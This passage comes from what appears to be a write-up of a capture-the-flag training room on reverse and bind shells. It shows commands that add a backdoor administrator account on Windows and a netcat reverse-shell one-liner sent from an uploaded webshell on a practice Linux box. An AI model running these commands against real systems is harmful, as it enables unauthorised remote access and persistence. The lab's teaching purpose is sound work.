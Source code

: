 Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:

`net user <username> <password> /add`

`net localgroup administrators <username> /add`

<ins>The important take away from this task:</ins>

Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.

### Answer the questions below

Read the above information


## Task 13 - Practice and Examples

This room contained a lot of information, and gave you little opportunity to put it into practice throughout. The following two tasks contain virtual machines (one Ubuntu 18.04 server and one Windows server), each configured with a simple webserver with which you can upload and activate shells. This is a sandbox environment, so there will be no filters to bypass. Login credentials and instructions for each will also be given, should you wish to log in to practice with netcat, socat or meterpreter shells.

The remainder of this task will consist of shell examples for you to try out on the practice boxes.

### Answer the questions below

* Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.

	* Create file webshell 

		![task13-webshell](./images/task13-webshell.png)

	* Upload file to target machine via browser
